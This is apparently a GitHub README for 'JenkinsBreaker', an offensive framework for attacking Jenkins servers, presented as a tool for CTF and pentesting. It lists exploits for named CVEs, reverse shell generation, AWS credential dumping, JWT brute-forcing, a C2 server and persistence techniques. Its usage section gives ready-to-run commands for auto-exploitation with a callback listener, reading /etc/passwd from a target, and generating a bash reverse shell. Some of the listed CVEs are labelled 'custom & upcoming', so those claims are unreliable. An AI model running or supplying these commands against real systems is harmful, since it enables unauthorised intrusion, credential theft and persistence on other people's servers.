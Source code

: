 # JenkinsBreaker 🏴‍☠️  
An Advanced Python Offensive Security Framework for Jenkins Exploitation in CTF and Pentesting Scenarios  

---

## Features  

- ✅ **Automated Enumeration & Exploitation** (`--auto` mode)  
- ✅ **Exploit Critical CVEs**:  
  - CVE-2019-1003029 / CVE-2019-1003030 – *Groovy Script RCE*  
  - CVE-2024-23897 – *Arbitrary File Read via CLI*  
  - CVE-2025-31720 / CVE-2025-31721 / CVE-2025-31722 – *Custom & Upcoming CVEs Included*  
- ✅ **Reverse Shell Payload Generation** (Bash, Python, Groovy, PowerShell, Metasploit Compatible)  
- ✅ **AWS Credential Dumping & Secrets Scanning**  
- ✅ **CSRF Crumb Handling & Automation**  
- ✅ **JWT Token Brute-Forcing and Analysis**  
- ✅ **Post-Exploitation Recon Automation** (Auto Upload & Execute linPEAS, pspy)  
- ✅ **Report Generation**: JSON, Markdown, PDF (via WeasyPrint)  
- ✅ **Built-in C2 Server (FastAPI) & Interactive WebSocket Shell (not functional with this release)**  
- ✅ **Persistence Techniques** (Cron Jobs, Jenkins Pipelines)  
- ✅ **Modular Exploit Loading** (`exploits/` Directory)  

---

## 📅 Coming Soon (Planned Features)  

- 🖥**Full Visual Interface** (TUI & Web UI) using *textual* and *fastapi*  
- **Enhanced Plugin Fuzzer** with *ML-Based Misconfiguration Detection*  
- **Interactive Dashboards** for Exploit Results and Reporting  

---

## Installation  

```bash
git clone https://github.com/ridpath/heaplessNights.git
cd heaplessNights/JenkinsBreaker
python3 JenkinsBreaker.py --help  # Auto-creates virtualenv and installs dependencies
```
```bash
##⚔️ Example Usage
Automatic Enumeration & Exploitation:
python3 JenkinsBreaker.py --url http://TARGET_IP:8080 --auto --lhost YOUR_IP --lport 4444

Run Specific CVE Exploit:
python3 JenkinsBreaker.py --url http://TARGET_IP:8080 --exploit-cve --target-file /etc/passwd

Generate a Reverse Shell:
python3 JenkinsBreaker.py --generate-shell bash --lhost YOUR_IP --lport 4444

List All Available Commands:
python3 JenkinsBreaker.py --help-commands
```
## Note
This tool is under active development. A full-fledged UI will soon make managing exploits and post-exploitation workflows more intuitive. Stay tuned for upcoming releases!
Working through multiple bugs.




